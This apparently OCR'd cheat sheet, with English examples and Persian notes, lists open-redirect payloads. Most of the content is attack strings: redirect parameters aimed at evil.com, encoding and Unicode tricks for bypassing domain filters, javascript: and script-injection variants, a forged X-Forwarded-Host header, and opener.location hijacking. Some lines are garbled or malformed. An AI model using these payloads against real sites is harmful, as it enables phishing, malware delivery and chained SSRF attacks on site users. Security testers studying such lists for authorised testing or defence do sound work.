 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...

===>>> example: site.com/.../next_url=evil.com/...

===>>> example: site.com/.../current_url=evil.com/...

===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com   <<<===

2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 

===>>> victim.com/page?redirect=http://evil.com
http://victim.com/page?url=https://evil.com
http://victim.com/page?next=//evil.com
http://victim.com/page?return=%2F%2Fevil.com
http://victim.com/page?redirect=https%3A%2F%2Fevil.com%2F
http://victim.com/page?redirect=///evil.com
http://victim.com/page?redirect=\/\evil.com
http://victim.com/page?redirect=javascript:window.location='http://evil.com'
http://victim.com/page?redirect=%3Cscript%3Ewindow.location='http://evil.com'%3C%2Fscript%3E
http://victim.com/page?redirect=//evil.com%00
http://victim.com/page?redirect=https://evil.com%2F%5C
===>>>
3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection

4 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com

5 - payload: {%E3%80%82}


===>>> example: https://20.44.36.49//google%E3%80%82com , https://20.44.36.49//bing%E3%80%82com , https://20.44.36.49//yahoo%E3%80%82com

6 - payload: { opener.location="https://evil.com"}

===>>> example: email ===>>> inspect ===>>> console: opener.location="https://evil.com"

7 - payload: {forget password}

===>>> example: https://20.44.36.49/.../google.com


==================================================================

نکته مهم درباره payloadهای Open Redirect
۱. بسیاری از اپلیکیشنها کنترل میکنند که URL مقصد فقط به دامنههای مشخصی اشاره کند (مثل فقط دامنه داخلی)، پس برای bypass باید گاهی payloadهایی شبیه به اینها استفاده کرد:
```
http://example.com/redirect?url=//evil.com (دو اسلش بدون schema)

http://example.com/redirect?url=/\evil.com

http://example.com/redirect?url=http:///evil.com
```
استفاده از کدگذاریهای URL (URL encoding): %2F%2Fevil.com

استفاده از کدگذاریهای Unicode یا دور زدن با کاراکترهای Unicode یا کاراکترهای غیرمعمول

۲. آزمایش با ترکیبی از کدگذاریها و کاراکترهای ویژه:

```
redirect=https:%2F%2Fevil.com
redirect=https:/\evil.com
redirect=////evil.com
redirect=//evil.com%00
redirect=//evil.com/
```
توصیه من برای payloadهای Open Redirect بروز شده:
از encoded URL ها استفاده کنید (%3A, %2F, %5C)

دستورات جاوااسکریپت را با <script> یا بدون آن به صورت encoded ارسال نکنید مگر بدانید که برنامه این را قبول میکند (زیرا بیشتر این حالتها XSS است)

از مسیرهای نامتعارف و شیوههای encode و Unicode جهت دور زدن فیلترهای معمول استفاده کنید.

نمونه payloadهای به روز و موثر:
```
redirect=https://evil.com
redirect=//evil.com
redirect=///evil.com
redirect=/%5Cevil.com
redirect=%2F%2Fevil.com
redirect=/%2Fevil.com
redirect=https:%2F%2Fevil.com
redirect=https:/\evil.com
redirect=%2F%2F%2Fevil.com
redirect=https://evil.com%00
redirect=https://evil.com%2F
redirect=%EF%BC%8E%EF%BC%8E%2Fevil.com   (دو نقطه fullwidth + اسلش)
```

==================================================================
## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
